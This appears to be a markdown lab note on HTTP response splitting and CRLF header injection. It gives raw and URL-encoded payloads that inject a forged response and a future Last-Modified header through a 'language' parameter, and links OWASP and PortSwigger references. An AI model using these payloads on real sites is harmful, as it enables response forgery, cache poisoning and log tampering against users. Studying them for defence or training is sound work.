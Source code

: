 
## HTTP SPLITTING

### (part 1)
Using [urlencoder](https://www.urlencoder.org/) under 'destination newline seperator' select 'Unix'
```
language=en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 10
<html>Test</html>
```

turns to
```
language%3Den%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2010%0A%3Chtml%3ETest%3C%2Fhtml%3E%0A%0A
```

Note: 
But you will notice that using the `%0a` works while `%0a%0d` doesn't. This is due to the underlying os environment that the application is running on: windows uses two characters for the *CR LF* sequence, while unix only uses *LF*.


| Environment  | CRLF Used  | encoded |
| ------------ |----------- | ------- |
| Windows      | CRLF       | %0d%0a  |
| Unix         | LF         | %0a     |

[https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types](https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types)

### CRLF / HTTP header injection
[https://owasp.org/www-community/attacks/HTTP_Response_Splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting)

[https://portswigger.net/kb/issues/00200200_http-response-header-injection](https://portswigger.net/kb/issues/00200200_http-response-header-injection)

### log poisoning using CRLF
[https://www.netsparker.com/blog/web-security/crlf-http-header/](https://www.netsparker.com/blog/web-security/crlf-http-header/)


### (part 2)
Note: inject the `Last-Modified` date to a future date which forces the browser to send an `If-Modified-Since` request header to future requests
*encode uri for below*
```
language=en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Fri, 1 Jan 2030 00:00:00 GMT
Content-Length: 4
<html>Test</html>
```

